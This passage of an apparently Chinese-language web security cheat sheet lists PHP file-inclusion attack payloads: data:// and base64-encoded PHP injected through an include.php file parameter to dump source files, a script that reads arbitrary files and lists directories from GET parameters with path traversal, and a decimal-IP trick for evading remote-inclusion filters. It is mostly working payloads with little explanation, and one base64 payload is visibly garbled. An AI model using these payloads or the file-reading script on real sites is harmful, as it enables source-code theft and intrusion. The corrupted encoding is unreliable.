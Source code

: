 ```
include.php?file=data:text/plain,<?php readfile('xxx.php'); ?>

include.php?file=data://text/plain;base64,PD9waHAgcmVhZGZpbGUoJ3h4eC5waHAnKTsgPz4=
```

```
include.php?file=data:text/plain,<?php echo file_get_contents("xxx.php") ?>

include.php?file=data://text/plain;base64,PD9waHAgechoIH4pXl9nZXRfcontentsKCJ4eHgucGhwIikgPz4=
```

```
<?php 
	$homepage = file_get_contents('index.php');
	echo $homepage;
?>

include.php?file=data://text/plain;base64,PD9waHANCiRob21lcGFnZSA9IGZpbGVfZ2V0X2NvbnRlbnRzKCdpbmRleC5waHAnKTsNCmVjaG8gJGhvbWVwYWdlOw0KPz4=
```

```
<?php print_R(scandir('.'));print(base64_encode(file_get_contents('index.php')));?>
```

```
include.php?file=data:text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
```

读目录include.php?file=test.php&dir=../../../

```
<?php
    $file=file_get_contents($_GET['file']);
    echo "<pre>".($file)."</pre>";

    $handle=opendir($_GET['dir']);
    echo "<pre>";
    while(false !== ($file=readdir($handle)))
    {
        echo "$file\n";
    }
    echo "</pre>";
	closedir($handle);
?> 
```

## 4) 利用十进制ip地址绕过RFI漏洞过滤

```
C:\Users\Administrator>ping 2130706433

正在 Ping 127.0.0.1 具有 32 字节的数据:
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=128
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=128
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=128
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=128

127.0.0.1 的 Ping 统计信息:
    数据包: 已发送 = 4，已接收 = 4，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 0ms，最长 = 0ms，平均 = 0ms
```
